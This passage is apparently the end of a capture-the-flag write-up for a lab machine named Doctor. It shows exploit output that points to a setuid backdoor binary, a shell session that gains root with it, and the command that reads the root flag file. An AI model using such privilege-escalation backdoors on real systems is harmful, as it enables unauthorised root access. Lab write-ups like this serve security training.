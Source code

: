 

    [!] If all went well run /tmp/.tester/bin/shdoor -p for a root shell
    [!] Run whoami if your prompt didn't change...

    [!] DELETE THE .tester DIRECTORY AS ROOT WHEN YOU'RE DONE! [!]

We then run the binary `shdoor` and get a root shell allowing us to retrive the
root flag.

    :::text
    shaun@doctor:/tmp$ /tmp/.tester/bin/shdoor -p
    /tmp/.tester/bin/shdoor -p
    # id
    id
    uid=1002(shaun) gid=1002(shaun) euid=0(root) groups=1002(shaun)
    # cat /root/root.txt
    cat /root/root.txt
    d32cd0d4b24856

# Wrapping up



